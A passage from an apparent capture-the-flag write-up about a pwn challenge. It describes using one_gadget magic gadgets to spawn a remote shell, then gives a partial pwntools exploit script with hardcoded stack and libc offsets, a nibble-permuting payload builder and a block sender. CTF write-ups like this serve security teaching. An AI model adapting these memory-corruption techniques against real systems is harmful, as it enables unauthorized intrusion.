 The provided binary had some magic gadgets we found with `one_gadget`.
When using a key of `'a'*16` we found a stable setup with the required registers pointing to the zero buffer on the stack after the flag.
With that, we spawned a shell on the remote and got the final flag:

![shell on remote with cat flag]({stage3_shell})

```py
from dataclasses import dataclass
import pwn

from decrypt import PERMUTATION, decrypt_block, from_nibbles, to_nibbles


@dataclass
class Block:
    key: str  # hex string
    shifts: list[int]
    plaintext: bytes


PERMUTATION_LOOKUP = [0] * 16
for i in range(16):
    PERMUTATION_LOOKUP[PERMUTATION[i]] = i


PATH = "./challenge_patched"
RETURN_OFFSET = 0x58
SHIFTS_OFFSET = 0x10
LIBC_LEAK = 0x28 - SHIFTS_OFFSET
LEAK_OFFSET = 0x62142


binary = pwn.ELF(PATH)


# Currently 8 bytes only, max offset 127
def build_payload(payload: bytes, offset: int):
    assert len(payload) == 8
    assert offset <= 127

    shifts = [0] * 16
    shifts[0] = offset * 2

    out = [0] * 16
    payload_nibbles = to_nibbles(payload)
    for i in range(16):
        out[i] = payload_nibbles[PERMUTATION_LOOKUP[i]]

    real_payload = from_nibbles(out)

    return Block("a" * 16, shifts, real_payload)


def send_block(conn: pwn.tube, block: Block):
    conn.recvuntil(b"Please provide a key for block ")
    conn.recvuntil(b": ")
    conn.sendline(block.key.encode())
    for pos in range(16):
        conn.recvuntil(b": ")
        conn.sendline(hex(block.shifts[pos])[2:].encode())
    conn.recvuntil(b"Please provide plaintext for block")
    conn.recvuntil(b": ")
    conn.sendline(block.plaintext.hex().encode())
```